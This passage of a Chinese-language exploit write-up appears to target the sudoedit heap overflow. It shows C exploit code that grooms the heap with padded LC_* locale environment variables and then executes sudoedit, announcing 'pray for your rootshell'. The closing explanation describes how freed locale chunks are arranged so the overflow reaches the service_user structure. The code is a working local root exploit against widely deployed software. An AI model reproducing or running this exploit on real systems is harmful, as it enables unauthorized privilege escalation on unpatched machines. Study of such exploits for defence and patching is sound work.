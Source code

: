 ```
    for(i = 11; i &gt; (11 - lc_num); i--)`{`
        temp = calloc(lc_len + strlen(lc_names[i]) + 10, 1);
        strcpy(temp, lc_names[i]);
        strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
        memset(temp+strlen(lc_names[i]) + 9, 'A'+i, lc_len);
        s_envp[envp_pos++] = temp;
    `}`
    temp = calloc(0x50 + strlen(lc_names[i]) + 10, 1);
    strcpy(temp, lc_names[i]);
    strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
    memset(temp+strlen(lc_names[i]) + 9, 'A'+i, 0x50);
    s_envp[envp_pos++] = temp;

    i -= 1;
    // temp = calloc(0x60 + strlen(lc_names[i]) + 10, 1);
    // strcpy(temp, lc_names[i]);
    // strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
    // memset(temp+strlen(lc_names[i]) + 9, 'A'+i, 0x60);
    // s_envp[envp_pos++] = temp;
    //
    // i -= 1;

    temp = calloc(lc_len + strlen(lc_names[i]) + 10, 1);
    strcpy(temp, lc_names[i]);
    strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
    memset(temp+strlen(lc_names[i]) + 9, 'A'+i, lc_len);
    s_envp[envp_pos++] = temp;
    i-=1;

    temp = calloc(lc_len + strlen(lc_names[i]) + 10, 1);
    strcpy(temp, lc_names[i]);
    strcpy(temp + strlen(lc_names[i]), "=XXXXXXXX");
    memset(temp+strlen(lc_names[i]) + 9, 'A'+i, lc_len);
    s_envp[envp_pos++] = temp;

    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target-&gt;sudoedit_path, s_argv, s_envp);
    // execve(target-&gt;sudoedit_path, s_argv, NULL);
    return 0;
`}`
```

这里的`exp`与原始的`exp`不同，原始的`exp`是用`LC_ALL`此时会在`sudo_conf_read`函数中调用`setlocale(LC_ALL, "C"),setlocale(LC_ALL, prev_locale)`会申请和释放大量的堆块，此时也会释放`_nl_global_locale.__names`中保存的堆块地址其实就是`newnames`中的堆块地址也就是存储我们环境变量值的堆块，通过释放大量的`0xf0`堆块进入`unsorted bin`，然后再申请`0x20`的时候，制造一个`0xd0`大小的`small bin`。此时还会有一个`unsorted bin`，由于在`get_user_info`会申请一个`0x80,0x1000`的堆块，此时`small bin,unsorted bin`会互换位置，也就是`0x80`大小的堆块和`group files service_user`会在`unsorted bin`相邻的位置申请，非常的巧妙。
